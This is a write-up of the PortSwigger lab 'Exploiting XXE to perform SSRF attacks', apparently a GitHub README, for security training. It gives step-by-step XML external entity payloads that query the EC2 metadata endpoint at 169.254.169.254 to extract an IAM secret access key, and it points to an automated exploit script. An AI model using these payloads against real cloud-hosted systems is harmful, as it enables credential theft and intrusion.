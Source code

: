 \+ Lab #2    : Exploiting XXE to perform SSRF attacks\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.<br/>
To solve the lab, exploit the [XXE vulnerability](https://portswigger.net/web-security/xxe) to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## End Goal:
Retrieve the server's IAM secret access key from the EC2 metadata endpoint. 

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to solve the lab, we need to perform a ```Server-Side Request Forgery (SSRF)``` to query and get EC2 instance metadata, which are located by default at ```/latest/meta-data/<metadata-path>```
> 📝: **NOTE:** <br/>
> For more information about EC2 metadata, refer to: https://towardsthecloud.com/amazon-ec2-instance-metadata
* In this lab, we need to extract the server's IAM secret access key, which means, we will replace ```<metadata-path>``` with ```iam```
* The malicious external entity should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
* Now, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous lab :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request3](https://user-images.githubusercontent.com/101610095/221720253-076cb0dc-091c-4f00-bfce-27f1c22ee7f4.png)
* Server's Response:<br/>
  ![response3](https://user-images.githubusercontent.com/101610095/221720300-fd110559-5019-451d-b854-58d2b7efebb7.png)
* As you can see, we got in the response a folder called ```security-credentials``` which will most likely contain the server's IAM secret access key.
* Let's update our payload and send the request: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Server's response: <br/>
  ![2023-02-28 01_30_27-Burp Suite Community Edition v2023 1 2 - Temporary Project](https://user-images.githubusercontent.com/101610095/221721050-5998738a-b6b8-46fd-9c88-cf30a3a76cba.png)

* The ```security-credentials``` folder contains another folder called ```admin```, which contains the server's IAM secret access key.
* Final Payload: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Request:<br/>
  ![request4](https://user-images.githubusercontent.com/101610095/221721580-3f9a9d9b-4dd1-433e-817f-2fe32aa7761d.png)
* Response: <br/>
  ![response4](https://user-images.githubusercontent.com/101610095/221721615-074b59a8-dd06-4e05-b2b3-129b7fde724c.png)

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-2.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-2.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -n, --no-proxy        Do not use proxy                            
```
![Lab2](https://user-images.githubusercontent.com/101610095/221735620-baed7f5a-caa2-4573-ad59-553c6f87c503.gif)
